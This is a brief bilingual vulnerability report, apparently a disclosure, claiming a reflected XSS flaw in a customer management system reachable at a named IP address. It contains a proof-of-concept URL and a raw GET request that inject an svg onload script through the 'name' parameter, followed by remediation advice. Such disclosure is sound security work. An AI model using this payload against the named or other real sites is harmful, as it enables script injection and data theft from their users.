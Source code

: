 # xss vulnerability exists in the customer management system

### 企业官网(Enterprise official website)：

http://114.55.95.178:802/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

http://XXXXX/?begindate=zth17&button=gt8h2&csrf_token=jy9x5&enddate=jqso9&immagine=uhoe0&key=y8db8&keywords=mlkz6&lang=dner4&list_type=d5ph4&month=wxiq8&name=%3Csvg%20onload=alert(1)%3E//&pass=vf9j0&password=z1dc5&q=qgzm9&region=saox8&text=rwgx8&tid=pyz20&token=adds8&uid=ki093&year=hi844

```
GET /?begindate=zth17&button=gt8h2&csrf_token=jy9x5&enddate=jqso9&immagine=uhoe0&key=y8db8&keywords=mlkz6&lang=dner4&list_type=d5ph4&month=wxiq8&name=<svg onload=alert(1)>//&pass=vf9j0&password=z1dc5&q=qgzm9&region=saox8&text=rwgx8&tid=pyz20&token=adds8&uid=ki093&year=hi844 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![](6.png)



### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

